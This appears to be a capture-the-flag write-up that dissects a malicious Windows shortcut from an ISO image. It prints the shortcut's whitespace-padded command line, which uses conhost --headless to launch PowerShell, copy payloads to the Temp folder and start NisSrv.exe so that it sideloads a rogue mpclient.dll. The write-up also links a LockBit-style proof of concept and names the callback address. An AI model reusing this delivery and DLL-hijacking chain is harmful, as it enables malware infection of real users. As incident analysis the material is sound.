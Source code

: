 # Pretty Links

In the Facture.iso file we have an LNK
```
$ lnkparse Facture.pdf.lnk
Windows Shortcut Information:
   Link CLSID: 00021401-0000-0000-C000-000000000046
   Link Flags: HasTargetIDList | HasLinkInfo | HasName | HasArguments | HasIconLocation | IsUnicode - (231)
   File Flags: FILE_ATTRIBUTE_ARCHIVE - (32)

   Creation Timestamp: 2023-10-28 10:02:04.494671+00:00
   Modified Timestamp: 2023-10-28 10:02:04.553483+00:00
   Accessed Timestamp: 2024-01-20 16:16:02.907880+00:00

   Icon Index: 0
   Window Style: SW_SHOWNORMAL
   HotKey: UNSET - UNSET {0x0000}

   TARGETS:
      Index: 78
      ITEMS:
         Root Folder
            Sort index: My Computer
            Guid: 20D04FE0-3AEA-1069-A2D8-08002B30309D
         Volume Item
            Flags: 0xf
            Data: None
         File entry
            Flags: Is directory
            Modification time: 2024-01-19 00:14:06+00:00
            File attribute flags: 16
            Primary name: Windows
         File entry
            Flags: Is directory
            Modification time: 2024-01-17 02:36:34+00:00
            File attribute flags: 16
            Primary name: System32
         File entry
            Flags: Is file
            Modification time: 2023-10-28 10:02:06+00:00
            File attribute flags: 32
            Primary name: conhost.exe

   LINK INFO:
      Link info flags: 1
      Local base path: C:\Windows\System32\conhost.exe
      Common path suffix:
      LOCAL:
         Drive type: 3
         Drive serial number: 0x387b0fb7
         Drive type: DRIVE_FIXED
         Volume label: OS

   DATA
      Description: Facture du 12 03
      Command line arguments:



                                                              --headless "%WINDIR%\System32\WindowsPowerShell\v1.0\powershell.exe" "$zweeki=$env:Temp;$ocounselk=[System.IO.Path]::GetFullPath($zweeki);$poledemy = $pwd;Copy-Item "$poledemy\*" -Destination $ocounselk -Recurse -Force | Out-Null;cd $ocounselk;;.\Facture.pdf; .\NisSrv.exe"
      Icon location: %ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
```

Note that the conhost.exe process is used with the --headless argument to execute powershell
Conhost is a known lolbas : https://lolbas-project.github.io/lolbas/Binaries/Conhost/

In the powershell command we see that other elements supposed to be present in the iso have been copied into $env:Temp -> C:\Users\Username\AppData\Local\Temp

![alt text](image-1.png)

We therefore open the capture of the file system provided in addition, in the Local\Temp folder 4 elements which have nothing to do there : 
- Facture.pdf
- Facture.pdf.lnk
- NisSrv.exe
- mpclient.dll

By doing a little research we came across this tweet from Sh0ckFR :
https://twitter.com/Sh0ckFR/status/1554021948967079936

We learn that the NisSrv.exe executable was used by LockBit3.0 in 2022 to do DLL Hijacking

Hijacking is possible if the Dll you want to execute is renamed mpclient.dll
https://github.com/Sh0ckFR/Lockbit3.0-MpClient-Defender-PoC

In our case to analyze the dll and try to understand its behavior we will execute it in a VM.
when analyzing network calls after running the dll we get this : 
![alt text](image.png)
Calls are failing because the listening port is not found.

GCC{conhost.exe:172.29.107.95:7894}
